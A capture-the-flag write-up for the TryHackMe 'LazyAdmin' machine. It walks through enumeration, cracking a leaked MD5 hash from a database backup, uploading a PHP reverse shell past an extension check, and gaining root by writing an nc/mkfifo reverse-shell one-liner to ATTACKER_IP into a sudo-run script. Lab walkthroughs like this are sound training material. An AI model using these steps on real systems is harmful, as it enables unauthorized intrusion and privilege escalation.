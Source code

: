 # [LazyAdmin](https://tryhackme.com/room/lazyadmin)

## Easy linux machine to practice your skills

### What is the user flag?

1. First, scan for open ports with `nmap` to identify available services

```bash
nmap IP
```

[SCREEN01]

2. Enumerate directories on the web server using `gobuster` to discover hidden content
   - We've discovered a `/content` directory. The web application is running `SweetRice`, a Content Management System

```bash
gobuster dir -u http://IP -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

[SCREEN02]

3. Scan `/content` directory to find additional resources
   - This reveals two interesting directories: `/content/inc/mysql_backup/` and `/content/as/`

```bash
gobuster dir -u http://IP/content -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

4. Investigating the `/content/inc/mysql_backup/` directory in the browser, we discover a database backup file `mysql_bakup_20191129023059-1.5.1.sql`
   - There are credentials for manager: `manager:42f749ade7f9e195bf475f37a44cafcb`

```bash
grep "admin" mysql_bakup_20191129023059-1.5.1.sql
```

[SCREEN03]

5. Crack this MD5 hash using [CrackStation](https://crackstation.net/) and login to `http://IP/content/as/`

[SCREEN04]

6. Create a [PHP reverse shell](https://github.com/mosec0/Reverse-Shell/blob/main/reverse-shell.php) and upload it to `http://IP/content/as/?type=media_center`. We need to change extension of the file to bypass validation

[SCREEN05]

7. Before triggering the shell (by clicking on the file), set up a netcat listener on our attack machine

8. Upgrade shell and get the user flag

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
cat /home/itguy/user.txt
```

[SCREEN06]

---

### What is the root flag?

1. Check what sudo permissions we have

```bash
sudo -l
```

[SCREEN07]

2. We can run `/usr/bin/perl` `/home/itguy/backup.pl` with sudo privileges

```bash
cat backup.pl
cat etc/copy.sh
```

[SCREEN08]

3. Set another listener and replace the ip in `etc/copy.sh` script with our own and run it

```bash
nc -lvnp 5554
```

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc ATTACKER_IP 5554 > /tmp/f" > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

[SCREEN09]

4. Get the root flag

```bash
whoami
cat /root/root.txt
```

[SCREEN10]
